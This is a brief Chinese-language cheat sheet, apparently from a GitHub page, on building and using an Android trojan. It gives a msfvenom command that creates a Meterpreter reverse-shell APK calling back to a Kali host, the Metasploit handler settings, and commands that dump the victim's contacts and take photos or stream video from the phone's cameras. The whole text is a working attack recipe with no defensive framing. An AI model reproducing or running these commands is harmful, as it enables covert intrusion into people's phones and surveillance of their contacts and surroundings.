 # 安卓木马的生成及使用
- 生成apk木马文件：msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.106(kali IP) LPORT=5555 R > /root/a.apk
- 安装到手机（只能自己安装优化中）
- 选择指定的Exploit：use exploit/multi/handler
- 选择payload  ：set payload android/meterpreter/reverse_tcp
- 设置参数： set LHOST 192.168.1.111 && set LPORT 55555
# 木马使用
- sysinfo  查看型号
- dump_contacts    这个是导出电话
- Webcam_list 看有几个摄像头
- webcam_snap   拍照
- webcam_stream(开启摄像头)  -i 1  是选择后摄像头  

